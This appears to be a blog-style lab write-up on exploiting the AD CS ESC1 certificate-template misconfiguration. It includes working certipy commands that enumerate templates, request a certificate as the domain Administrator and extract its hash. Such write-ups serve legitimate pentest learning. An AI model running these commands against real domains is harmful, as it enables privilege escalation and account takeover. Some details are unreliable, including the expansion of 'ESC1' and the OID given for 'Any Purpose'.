

AD CS Attack Paths Series: ESC1 Certificate Template misconfiguration
Active Directory Certificate Services (AD CS) is one of the most frequently used services in an Active Directory environment, especially for creating digital certificates such as email, web, and other certificates.
In this article, I will try to explain how to exploit the ESC1 (Enterprise Subordinate CA 1) vulnerability. This article was created as a personal note in case I encounter a similar case or similar situation in the future.
In the future, I also plan to discuss the exploitation of ESC2 to ESC9, so that this documentation can be a complete reference in understanding the potential risks in AD CS implementation.
ESC1 Background
ESC1 is a privilege escalation path in Active Directory through misuse of Certificate Template misconfiguration in AD CS. If a particular template meets the requirements, an attacker with a low-privileged account can request a certificate on behalf of a privileged account and use that certificate to PKINIT Kerberos TGT, then login as that account. Detail
Conditions for ESC1 to be exploited
ENROLLEE_SUPPLIES_SUBJECT
- Users can specify their own Subject Alternative Name (SAN) in the CSR.
EKU “Any Purpose” (1.3.6.1.5.5.7.3.3)
- The certificate can be used for authentication.
No Manager Approval Required
- Certificates are issued automatically without review.
Accessible to Low-Privilege Users
- Enroll permissions are granted to Domain Users or Authenticated Users groups.
Enumeration and Exploitation
Let’s enumerate certificate templates with the certifpy tool, you can get this tool through the repository if you are using kali linux.
certipy-ad find -u 'domain-user@shift.local' -p 'password' -dc-ip 10.10.10.10 -vulnerable -enabled



From the enumeration results, we found that the template we created earlier is vulnerable to ESC1 because the EnrollMent Right is to the user’s domain and can supply the subject.
Let’s try to exploit and get the hash of the Domain Admin, namely the Administrator of this DC01 Letsgoo
certipy-ad req -u 'elena.petrova@shift.local' -p 'qwerty1234' -dc-ip 10.10.10.10 -ca shift-DC01-CA -target 'DC01.shift.local' -template 'Template_ESC1' -upn 'administrator@shift.local'

Extract administrator.pfx to get the hash of the administrator
certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.10.10


Nice we have successfully created a lab and exploited the ESC1 vulnerability, hopefully this article can help you in the Active Directory Pentesting project, sorry if something is missed, don’t forget to comment below if there are errors in the explanation, I am very open to criticism, Thanks All